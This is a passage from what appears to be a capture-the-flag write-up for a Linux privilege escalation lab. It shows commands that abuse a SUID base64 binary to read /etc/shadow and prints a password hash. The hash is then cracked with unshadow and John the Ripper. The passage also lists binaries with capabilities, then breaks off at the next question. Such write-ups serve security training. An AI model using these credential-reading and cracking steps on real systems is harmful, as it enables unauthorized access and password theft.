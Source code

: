 - Used `find / -type f -perm -04000 -ls 2>/dev/null`, to get a list of binaries with SUID bits set
- Out of the ones listed, many are stored in the /snap directory, which will likely not be useful
    - `/usr/bin/base64` is the only binary that has a SUID bit set and is not in a snap directory that has a listing in GTFOBins for an SUID bit
- Used base64 to encode then decode /etc/shadow
    - `base64 /etc/shadow | base64 --decode`
    - We get this password hash for user2: `$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/`
- To use `unshadow`, we need both *passwd* and *shadow*
    - `unshadow` does not exist on target machine, and no sudo permissions to install
    - We need to get `/etc/passwd` and `/etc/shadow` to our attack machine
        - We can copy the contents of each after using `cat` and/or our base64 SUID exploit and `echo` them into files on our attack machine
            - `echo '*/etc/passwd contents*' > passwd`
            - `echo '*/etc/shadow contents*' > shadow`
    - `unshadow passwd shadow > hash.txt` to output the hashes into *hash.txt*
- *hash.txt* can now be cracked by **johntheripper**
- `john hash.txt --wordlist=*path-to-wordlist*` (rockyou.txt worked for me)

> The cracked password we find is **Password1**

### What is the content of the flag3.txt file?

- `cd /home/ubuntu`
- `base64 flag3.txt | base64 --decode`

> <details><summary>The flag found is </summary></details>

## Capabilities

### How many binaries have set capabilities?

- Ran `getcap -r / 2>/dev/null` to list capabilities
    - *-r* flag enables command recursively so it will look within the subfolders of the '/' directory
    - Without root access, `getcap -r /` generates errors
    - *2>/dev/null* redirects errors to *null*

#### Output:

```
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

> The output returns **6** binaries

### What other binary can be used through its capabilities?
